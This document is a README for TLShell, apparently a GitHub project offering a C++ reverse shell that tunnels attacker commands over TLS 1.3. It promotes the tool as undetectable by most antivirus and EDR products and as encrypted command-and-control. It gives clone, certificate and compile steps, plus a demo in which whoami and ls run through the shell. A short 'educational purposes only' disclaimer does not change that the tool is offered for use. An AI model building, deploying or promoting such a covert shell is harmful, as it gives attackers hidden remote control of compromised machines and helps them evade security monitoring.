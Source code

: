 # TLShell
## A covert reverse shell using TLS
<!-- DESCRIPTION -->
## Description:

A TLS-encrypted reverse shell provides significant security and privacy benefits for communication between an attacker and a compromised system. Traditional reverse shells send data in plaintext, making them vulnerable to detection or interception by network monitoring tools, intrusion detection systems (IDS), or firewalls. With TLS encryption, however, the communication between the attacker and the target machine is encrypted, ensuring confidentiality and reducing the risk of detection by security tools that inspect unencrypted traffic.

## Warning: 

This tool is made for educational purposes only. The developer is not responsible for any misuse or unintended consequences arising from the use of this tool.

<!-- FEATURES -->
## Features:

- Undetectable by most AV/EDR solutions

- Written in C++

- Encrypted Command and Control

## Technical details:

- TLS 1.3 for encryption

**Tip: Replace hardcoded certificate in client code with your own**

<!-- INSTALLATION -->
## Installation:
    $ sudo apt update
    $ sudo apt install openssl
    $ git clone https://github.com/umutcamliyurt/TLShell.git
    $ cd TLShell/
    $ openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.crt -days 36500 -nodes
    $ g++ server.cpp -o server -lssl -lcrypto
    $ g++ client.cpp -o client -lssl -lcrypto


## Demo:

### Server:
```
nemesis@localhost:~/Projects/TLShell$ ./server 8080
Server listening on port 8080...
Client connected!
Enter command to send to client (type 'exit' to quit): whoami
Client output: nemesis

Enter command to send to client (type 'exit' to quit): ls
Client output: client
client.cpp
image.png
LICENSE
README.md
server
server.cpp
server.crt
server.key

Enter command to send to client (type 'exit' to quit): 
```

### Client:
```
nemesis@localhost:~/Projects/TLShell$ ./client 127.0.0.1 8080
Connected to server 127.0.0.1:8080!
```

## Results:

![screenshot](image.png)

<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.

